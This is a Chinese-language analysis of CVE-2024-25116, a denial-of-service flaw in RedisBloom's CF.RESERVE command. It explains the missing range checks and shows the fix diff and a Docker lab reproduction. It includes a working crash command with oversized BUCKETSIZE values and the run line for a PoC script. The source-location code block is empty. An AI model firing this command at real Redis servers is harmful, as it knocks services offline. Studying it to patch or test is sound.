




# CVE-2024-25116 CWE-20 Redis DoS

## 漏洞背景

- **Redis**：一个key-value 存储系统，是跨平台的非关系型数据库。开源的内存数据库，提供了一个高性能的键值（key-value）存储系统，常用于缓存、消息队列、会话存储等应用场景。客户端通过套接字与 Redis 服务器通信，发送命令，服务器更改其状态（即其内存结构）以响应此类命令。
- **RedisBloom：**Redis 的扩展模块，以原生命令方式提供布隆过滤器、Count-Min Sketch、Top-K 等概率数据结构，在恒定内存和毫秒级延迟内完成海量数据的存在性判断、频率统计与热点排行。
- **CF.RESERVE：** RedisBloom 模块的命令，用于**预先创建一个 Count-Filter（近似计数过滤器）**，可自定义桶数、桶深和可扩展参数，避免动态扩容带来的性能抖动，适合在**高并发写入前**把内存和对齐策略一次性敲定。

```txt
CWE-20: Improper Input Validation

The product receives input or data, but it does not validate or incorrectly validates that the input has the properties that are required to process the data safely and correctly.
```

## 漏洞原理

RedisBloom模块的`CF.RESERVE`命令，该命令允许用户指定`MAXITERATIONS`、`BUCKETSIZE`和`EXPANSION`等参数。由于缺乏有效的参数范围检查，经过身份验证的用户可以传递异常的参数值，这些不合理的值可能触发Redis的运行时断言，导致服务器崩溃。

## 漏洞定位

分析 RedisBloom v2.6.3 源码：

在 src/rebloom.c 文件，

```c

```

## 漏洞修复


```cpp
diff --git a/src/rebloom.c b/src/rebloom.c
index b3a781706..0805c95e9 100644
--- a/src/rebloom.c
+++ b/src/rebloom.c
@@ -24,9 +24,12 @@
 #define REDISBLOOM_GIT_SHA "unknown"
 #endif
 
-#define CF_MAX_ITERATIONS 20
+#define CF_DEFAULT_MAX_ITERATIONS 20
 #define CF_DEFAULT_BUCKETSIZE 2
 #define CF_DEFAULT_EXPANSION 1
+#define CF_MAX_EXPANSION 32768
+#define CF_MAX_BUCKET_SIZE 255
+#define CF_MAX_ITERATIONS 65535
 #define BF_DEFAULT_EXPANSION 2
 
 ////////////////////////////////////////////////////////////////////////////////
@@ -107,8 +110,8 @@ static SBChain *bfCreateChain(RedisModuleKey *key, double error_rate, size_t cap
     return sb;
 }
 
-static CuckooFilter *cfCreate(RedisModuleKey *key, size_t capacity, size_t bucketSize,
-                              size_t maxIterations, size_t expansion) {
+static CuckooFilter *cfCreate(RedisModuleKey *key, size_t capacity, uint16_t bucketSize,
+                              uint16_t maxIterations, uint16_t expansion) {
     if (capacity < bucketSize * 2)
         return NULL;
 
@@ -529,14 +532,14 @@ static int CFReserve_RedisCommand(RedisModuleCtx *ctx, RedisModuleString **argv,
         return RedisModule_ReplyWithError(ctx, "Bad capacity");
     }
 
-    long long maxIterations = CF_MAX_ITERATIONS;
+    long long maxIterations = CF_DEFAULT_MAX_ITERATIONS;
     int mi_loc = RMUtil_ArgIndex("MAXITERATIONS", argv, argc);
     if (mi_loc != -1) {
         if (RedisModule_StringToLongLong(argv[mi_loc + 1], &maxIterations) != REDISMODULE_OK) {
             return RedisModule_ReplyWithError(ctx, "Couldn't parse MAXITERATIONS");
-        } else if (maxIterations <= 0) {
+        } else if (maxIterations <= 0 || maxIterations > CF_MAX_ITERATIONS) {
             return RedisModule_ReplyWithError(
-                ctx, "MAXITERATIONS parameter needs to be a positive integer");
+                ctx, "MAXITERATIONS: value must be an integer between 1 and 65535, inclusive.");
         }
     }
 
@@ -545,9 +548,9 @@ static int CFReserve_RedisCommand(RedisModuleCtx *ctx, RedisModuleString **argv,
     if (bs_loc != -1) {
         if (RedisModule_StringToLongLong(argv[bs_loc + 1], &bucketSize) != REDISMODULE_OK) {
             return RedisModule_ReplyWithError(ctx, "Couldn't parse BUCKETSIZE");
-        } else if (bucketSize <= 0) {
+        } else if (bucketSize <= 0 || bucketSize > CF_MAX_BUCKET_SIZE) {
             return RedisModule_ReplyWithError(
-                ctx, "BUCKETSIZE parameter needs to be a positive integer");
+                ctx, "BUCKETSIZE: value must be an integer between 1 and 255, inclusive.");
         }
     }
 
@@ -556,9 +559,9 @@ static int CFReserve_RedisCommand(RedisModuleCtx *ctx, RedisModuleString **argv,
     if (ex_loc != -1) {
         if (RedisModule_StringToLongLong(argv[ex_loc + 1], &expansion) != REDISMODULE_OK) {
             return RedisModule_ReplyWithError(ctx, "Couldn't parse EXPANSION");
-        } else if (expansion < 0) {
+        } else if (expansion < 0 || expansion > CF_MAX_EXPANSION) {
             return RedisModule_ReplyWithError(
-                ctx, "EXPANSION parameter needs to be a non-negative integer");
+                ctx, "EXPANSION: value must be an integer between 0 and 32768, inclusive.");
         }
     }
 
@@ -596,7 +599,7 @@ static int cfInsertCommon(RedisModuleCtx *ctx, RedisModuleString *keystr, RedisM
     int status = cfGetFilter(key, &cf);
 
     if (status == SB_EMPTY && options->autocreate) {
-        if ((cf = cfCreate(key, options->capacity, CF_DEFAULT_BUCKETSIZE, CF_MAX_ITERATIONS,
+        if ((cf = cfCreate(key, options->capacity, CF_DEFAULT_BUCKETSIZE, CF_DEFAULT_MAX_ITERATIONS,
                            CF_DEFAULT_EXPANSION)) == NULL) {
             return RedisModule_ReplyWithError(ctx, "Could not create filter"); // LCOV_EXCL_LINE
         }
@@ -1252,7 +1255,7 @@ static void *CFRdbLoad(RedisModuleIO *io, int encver) {
     if (encver < CF_MIN_EXPANSION_VERSION) { // CF_ENCODING_VERSION when added
         cf->numDeletes = 0;                  // Didn't exist earlier. bug fix
         cf->bucketSize = CF_DEFAULT_BUCKETSIZE;
-        cf->maxIterations = CF_MAX_ITERATIONS;
+        cf->maxIterations = CF_DEFAULT_MAX_ITERATIONS;
         cf->expansion = CF_DEFAULT_EXPANSION;
     } else {
         cf->numDeletes = RedisModule_LoadUnsigned(io);
```

## 影响范围

Reids-RedisBloom ：

-  2.0.0 to 2.4.6
-  2.6.9 to 2.6.10

## 环境搭建

启动 Docker 环境，redis-stack 版本为 7.2.0-v1，该版本是安装了 RedisBloom v2.6.3 的 Redis 服务器

```txt
CNA:GitHub,Inc.   Base Score:5.5 MEDIUM  Vector:CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
```



## 漏洞复现

1. 进入 PoC 文件夹，运行 CVE-2024-25116-PoC.py 代码，输入目标机 Redis 的 IP 和端口，可以看到 Redis 断开了连接。

   ```bash
   python CVE-2024-25116-PoC.py --host 127.0.0.1 --port 6379
   ```

   

   或者直接进入容器命令行，直接执行 PoC 语句，也可以看到 Redis 断开了连接

   ```bash
   docker exec -it redis-stack-7.2.0-v1 redis-cli CF.RESERVE CF 67108864 BUCKETSIZE 33554432 MAXITERATIONS 1337 EXPANSION 1337
   ```

   

2. 查看容器日志，可以看到 Redis 在运行过程中执行了整数除零操作（signal: 8），导致崩溃。

   ```bash
   docker logs redis-stack-7.2.0-v1
   ```

   

## PoC分析

```bash
CF.RESERVE CF 67108864 BUCKETSIZE 33554432 MAXITERATIONS 1337 EXPANSION 1337
```

在此命令中，`BUCKETSIZE`设置为一个远超限制的值（33554432），这个值远远超出了RedisBloom对桶大小的最大限制（255）。由于RedisBloom模块在处理这些参数时没有足够的验证，使用该参数会导致内存分配或数据结构初始化出现问题，进而触发Redis服务器的运行时断言（`assert`）。

由于`MAXITERATIONS`和`EXPANSION`参数在该命令中都设置为较大值，这可能会进一步加剧问题，特别是在无效的`BUCKETSIZE`值的配合下，导致Redis进程崩溃。

## 参考链接

[NVD - CVE-2024-25116](https://nvd.nist.gov/vuln/detail/CVE-2024-25116)

[Specially crafted CF.RESERVE command can lead to denial-of-service · Advisory · RedisBloom/RedisBloom](https://github.com/RedisBloom/RedisBloom/security/advisories/GHSA-wrwq-cfrx-pmg4)

[MOD-6343 Fix potential crash for cf.reserve (#724) · RedisBloom/RedisBloom@61d980a](https://github.com/RedisBloom/RedisBloom/commit/61d980a429050637f1af9fe919a880800a824f2a#diff-dcc6f0c000a4a441da1aaa23e8298e4183eee762f446b06792cefb1d36919b8b)
